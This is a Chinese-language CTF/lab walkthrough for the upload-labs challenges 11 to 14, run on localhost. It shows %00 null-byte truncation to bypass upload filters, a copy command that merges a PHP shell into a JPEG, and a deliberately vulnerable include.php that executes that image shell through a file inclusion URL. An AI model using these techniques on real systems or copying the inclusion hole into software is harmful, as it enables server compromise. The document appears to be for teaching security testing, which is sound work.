 ### Pass-11

%00截断条件：

- php版本小于5.3.29
- magic_quotes_gpc = Off

本pass上传目录可以控制

先上传shell.jpg，再抓包利用上传目录名将上传的文件名截断

![](https://s2.loli.net/2022/03/01/TvrRPENDgo9fXZ4.png)

### Pass-12

同pass11，请求方式由get变为post，利用0x00截断

![](https://s2.loli.net/2022/03/01/2ITNWV1FfDCv9zA.png)

### Pass-13

制作图片马

```bat
copy shell.jpg /b + shell.php /a muma.jpg
```

![](https://s2.loli.net/2022/03/02/V27AjU6LltYHfIg.png)

上传生成的```muma.jpg```

配合文件包含漏洞进行连接即可

include.php内容如下：用于包含文件muma.jpg

```php
 <?php
/*
本页面存在文件包含漏洞，用于测试图片马是否能正常运行！
*/
$file = $_GET['file'];
if(isset($file)){
    include $file;
}else{
    show_source(__file__);
}
?> 
```

访问

```http://127.0.0.1/upload/upload/include.php?file=4920220302095833.jpg```

即可成功包含

![](https://s2.loli.net/2022/03/02/Oea1EtwXMs8HSnz.png)

### Pass-14

![](https://s2.loli.net/2022/03/02/Vf6leNsGBjFY38c.png)



利用方法同Pass-13



### 方法总结：

```